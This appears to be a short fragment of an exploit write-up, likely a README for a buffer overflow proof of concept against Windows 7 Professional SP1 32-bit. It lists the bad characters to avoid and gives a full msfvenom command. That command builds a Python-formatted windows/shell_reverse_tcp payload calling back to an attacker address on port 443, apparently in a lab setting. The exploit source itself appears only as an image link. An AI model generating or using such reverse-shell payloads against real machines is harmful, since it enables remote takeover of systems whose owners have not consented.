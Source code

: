 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\x04\x3e\x3f\xe1

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\x04\x3e\x3f\xe1" -v esp -f python
